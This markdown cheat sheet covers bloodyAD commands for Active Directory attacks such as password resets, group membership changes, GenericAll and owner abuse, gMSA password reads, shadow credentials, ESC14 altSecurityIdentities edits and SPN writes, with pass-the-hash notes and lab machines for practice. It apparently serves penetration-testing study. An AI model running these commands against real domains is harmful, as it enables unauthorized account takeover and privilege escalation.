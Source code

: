 ### Retrieve User Information
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Modify UPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
### MachineAccountQuota
Enumerate MachineAccountQuota
```
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
### Modify mail
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
### Modify the altSecurityIdentities attribute (ESC14B)
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
### Find Writable Attributes
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
### Shadow Credentials
```
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```
### WriteSPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
### Notes
- To use Kerberos, obtain a TGT, export it, and then pass `-k` instead of providing a username and password
- You can pass a user hash instead of a password using `-p :hash` 
- Specify format for '--password' or '-k <keyfile>' using `-f`, e.g. `-f rc4`
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)